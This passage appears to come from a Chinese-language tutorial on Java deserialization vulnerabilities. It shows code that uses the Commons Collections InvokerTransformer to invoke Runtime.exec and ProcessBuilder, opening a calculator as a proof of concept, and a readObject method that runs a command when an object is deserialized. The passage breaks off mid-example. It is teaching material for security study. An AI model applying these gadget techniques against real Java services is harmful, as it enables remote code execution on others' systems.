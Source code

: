 在这个函数中，调用了java反射机制，下面写一个正常的例子测试一下:  

	InvokerTransformer invokerTransformer = new InvokerTransformer("append", new Class[]{String.class}, new Object[]{new String("sb")});
	Object result = invokerTransformer.transform(new StringBuffer("who am i")) ;
	System.out.printf(result.toString());
	
有些朋友会想，那么我该如何去执行命令呢？java常见执行命令的方式有两个，分别是 new processBuilder(cmd).start()和Runtime.getRuntime().exec(cmd)。我们可以构造如下代码:
运行下面这段代码可以弹出计算器，mac下

	String[] cmds = new String[]{"open", "/Applications/Calculator.app/"};
	InvokerTransformer invokerTransformer1 = new InvokerTransformer("exec", new Class[]{String[].class}, new Object[]{cmds});
	invokerTransformer1.transform(Runtime.getRuntime());
	
win下
	
	String[] cmds = new String[]{"calc.exe"};
	InvokerTransformer invokerTransformer1 = new InvokerTransformer("exec", new Class[]{String[].class}, new Object[]{cmds});
	invokerTransformer1.transform(Runtime.getRuntime());
	
当然这样也可以
	
	ProcessBuilder processBuilder = new ProcessBuilder("open", "/Applications/Calculator.app/");
	InvokerTransformer invokerTransformer1 = new InvokerTransformer("start", new Class[]{}, new Object[]{});
	invokerTransformer1.transform(processBuilder);
	
###  案例  
  java有一个特征，不管经过几层封装，封装成什么类型，最终在readObject的时候，都会按照被封装的倒序去执行readObject。(ps:这是一段极其抽象的话，为了解释这段抽象的话，我画了一个看起来很抽象的画，在下师从抽象派大师梵高)
  ![](http://pic.findbugs.top/18-2-1/73877567.jpg)
  即使最后是读者们执行readObject，最后也会一层一层到上帝来执行readObject，具体例子如下:
	
	public class A implements Serializable {
    private void readObject(java.io.ObjectInputStream in) throws IOException, ClassNotFoundException {
        try {
            System.out.printf("whoami");
            new ProcessBuilder("calc.exe").start();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    }
	
	public class Main {
    public static class A implements Serializable {
        private void readObject(java.io.ObjectInputStream in) throws IOException, ClassNotFoundException {
            try {
                System.out.printf("whoami");
                //Runtime.getRuntime().exec(new String[]{"calc.exe"});
                new ProcessBuilder("calc.exe").start();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }
